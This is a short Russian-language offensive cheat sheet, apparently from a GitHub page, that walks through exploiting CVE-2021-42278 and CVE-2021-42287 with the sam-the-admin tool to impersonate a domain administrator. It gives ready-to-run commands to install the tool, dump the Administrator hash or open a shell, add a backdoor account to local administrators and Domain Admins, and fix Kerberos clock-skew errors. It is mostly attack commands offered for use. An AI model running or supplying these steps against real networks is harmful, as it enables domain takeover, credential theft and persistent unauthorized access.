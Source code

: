 Exploiting CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user 
```
    # скачиваем на kali linux https://github.com/WazeHell/sam-the-admin
    # разархивируем и переходим в папку
    $ cd sam-the-admin
    # устанавливаем зависимости
    $ pip3 install -r requirements.txt
    # запускаем експлойт
    # дампаем хеш   
    $ python3 sam_the_admin.py "domain.local/username:Password123" -dc-ip 10.10.10.10 -dc-host DC01 -dump -just-dc-user domain.local/Administrator
    # или получаем shell, потом добавляем локал админа
    $ python3 sam_the_admin.py "domain.local/UserName:Password123" -dc-ip 10.10.10.10 -dc-host DC01 -shell
    # C:\windows\
    system32\> net user /add privetkakdela Password321
    system32\> net localgroup administrators privetkakdela /add
    system32\> net group "domain admins" privetkakdela /add
```

Если получаем ошибку 
```
	# [-] Error getting TGT, Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
	# [*] Get TGT wrong!
	# открываем файл в редакторе
	$ sudo nano /etc/systemd/timesyncd.conf  
	# раскоментим строчку ntp и вписываем туда айпишник дк
	[Time]
	NTP=dom.contr.ip.ad
	FallbackNTP=ntp.ubuntu.com pool.ntp.org
	# ctrl+o -> enter -> ctrl+x
	$ sudo systemctl restart systemd-timesyncd
	# если ошибка
	$ sudo apt update
	$ sudo apt install ntpdate
	$ sudo ntpdate dom.contr.ip.ad
	# теперь ошибки не будет
```

! Запускать только с kali

#### Check out 
- [CVE-2021-42287/CVE-2021-42278 Weaponisation ](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)
- [sAMAccountName spoofing](https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing)
